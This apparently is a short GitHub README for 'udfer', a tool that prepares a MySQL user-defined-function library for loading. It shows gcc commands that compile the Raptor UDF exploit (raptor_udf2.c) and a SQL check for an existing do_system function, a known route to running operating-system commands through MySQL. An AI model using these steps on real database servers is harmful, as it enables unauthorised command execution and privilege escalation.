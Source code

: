 # udfer

./udfer /path/to/your/mysql/udf.so

My use case was the old Raptor UDF exploit, so:

~~~
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
./udfer /path/to/raptor_udf2.so
~~~

Before running the code this produces, ensure that the do_system UDF does not exist!

~~~
select * from mysql.func where name = 'do_system'
~~~

If it does exist and you run the command provided, you will clobber an existing function.

